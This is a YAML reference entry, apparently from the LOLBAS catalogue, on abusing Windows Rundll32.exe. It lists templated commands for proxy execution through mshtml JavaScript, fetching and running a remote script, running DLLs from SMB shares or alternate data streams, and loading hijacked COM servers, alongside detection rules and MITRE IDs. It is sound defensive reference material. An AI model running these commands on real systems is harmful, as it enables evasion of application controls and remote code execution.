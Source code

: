 ```yaml
---
Name: Rundll32.exe
Description: Used by Windows to execute dll files
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: rundll32.exe {PATH},EntryPoint
    Description: First part should be a DLL file (any extension accepted), EntryPoint should be the name of the entry point in the DLL file to execute.
    Usecase: Execute DLL file
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: DLL
  - Command: rundll32.exe {PATH_SMB:.dll},EntryPoint
    Description: Execute a DLL from an SMB share. EntryPoint is the name of the entry point in the DLL file to execute.
    Usecase: Execute DLL from SMB share.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: DLL
      - Execute: Remote
  - Command: rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"{CMD}\");window.close()");
    Description: Use Rundll32.exe to execute a JavaScript script that runs a command.
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: JScript
  - Command: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:{REMOTEURL}")
    Description: Use Rundll32.exe to execute a JavaScript script that calls a remote JavaScript script.
    Usecase: Execute code from Internet
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: JScript
  - Command: rundll32 "{PATH}:ADSDLL.dll",DllMain
    Description: Use Rundll32.exe to execute a .DLL file stored in an Alternate Data Stream (ADS).
    Usecase: Execute code from alternate data stream
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: DLL
  - Command: rundll32.exe -sta {CLSID}
    Description: Use Rundll32.exe to load a registered or hijacked COM Server payload. Also works with ProgID.
    Usecase: Execute a DLL/EXE COM server payload or ScriptletURL code.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows 10 (and likely previous versions), Windows 11
    Tags:
      - Execute: COM
Full_Path:
  - Path: C:\Windows\System32\rundll32.exe
  - Path: C:\Windows\SysWOW64\rundll32.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/network_connection/net_connection_win_rundll32_net_connections.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_rundll32_susp_activity.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_unusual_network_connection_via_rundll32.toml
  - IOC: Outbount Internet/network connections made from rundll32
  - IOC: Suspicious use of cmdline flags such as -sta
Resources:
  - Link: https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/
  - Link: https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_7
  - Link: https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
  - Link: https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
  - Link: https://bohops.com/2018/06/28/abusing-com-registry-structure-clsid-localserver32-inprocserver32/
  - Link: https://github.com/sailay1996/expl-bin/blob/master/obfus.md
  - Link: https://github.com/sailay1996/misc-bin/blob/master/rundll32.md
  - Link: https://nasbench.medium.com/a-deep-dive-into-rundll32-exe-642344b41e90
  - Link: https://www.cybereason.com/blog/rundll32-the-infamous-proxy-for-executing-malicious-code
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: Jimmy
    Handle: '@bohops'
  - Person: Sailay
    Handle: '@404death'
  - Person: Martin Ingesen
    Handle: '@Mrtn9'
---
```


